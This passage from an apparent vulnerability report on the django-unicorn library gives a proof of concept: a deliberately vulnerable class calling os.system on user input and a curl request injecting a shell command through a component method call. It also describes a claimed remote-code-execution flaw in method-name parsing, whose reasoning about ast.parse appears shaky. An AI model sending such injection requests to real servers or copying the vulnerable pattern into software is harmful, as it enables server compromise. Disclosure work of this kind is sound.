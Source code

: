             class CustomObject:
                def __init__(self, command):
                    import os
                    os.system(command) # Vulnerable!

            class VulnerableView(UnicornView):
                def vulnerable_method(self, obj: CustomObject):
                    pass
            ```
        2. Vulnerable Component Template (`example/templates/unicorn/vulnerable_component.html`):
            ```html
            <button unicorn:click="vulnerable_method({ 'command': 'echo vulnerable' })">Trigger Vulnerability</button>
            ```
        3. Deploy the Django application with the vulnerable component and view.
        4. Access the `/vulnerable` page in a browser to render the component.
        5. Identify the component ID.
        6. Craft a POST request using `curl` to send a message to the component:
              ```bash
              curl -X POST -H "Content-Type: application/json" -d '{"data":{},"checksum":"<CHECKSUM>","id":"testcomponentid","epoch":1678886400,"actionQueue":[{"type":"callMethod","payload":{"name":"vulnerable_method(obj={\"command\":\"touch /tmp/unicorn_vuln\"})"}}]}' http://your-app-domain/message/example.unicorn.components.vulnerable_component.VulnerableView
              ```
              Replace `<CHECKSUM>` with the SHA256 checksum of `{"data":{}}`.
        7. After sending the request, access the server and check for the file `/tmp/unicorn_vuln`. If the file exists, it indicates successful command execution due to object injection.

### 3. Remote Code Execution via Method Call Parsing

- **Vulnerability name:** Remote Code Execution via Method Call Parsing
- **Description:**
    - An attacker can execute arbitrary Python code by exploiting the `parse_call_method_name` function, which uses `ast.parse` in `eval` mode on user-provided input.
    - **Step-by-step trigger:**
        1. An attacker sends a crafted POST request to the `/message/{component_name}` endpoint.
        2. The request includes a `callMethod` action with a malicious `name` payload.
        3. The `parse_call_method_name` function processes the `name` payload using `ast.parse` with `eval` mode.
        4. By injecting malicious Python code into the `name` payload, the attacker achieves arbitrary Python code execution on the server.

- **Impact:** Remote Code Execution (RCE). Full system compromise, data exfiltration, and denial of service are possible.

- **Vulnerability rank:** Critical

- **Currently implemented mitigations:**
    - Checksum validation of the request data: Ensures data integrity but does not prevent code injection through vulnerable parsing logic.

- **Missing mitigations:**
    - Input sanitization and validation for `call_method_name` in `parse_call_method_name`.
    - Avoid using `ast.parse` with `eval` mode for user input; use safer parsing techniques or whitelisting.
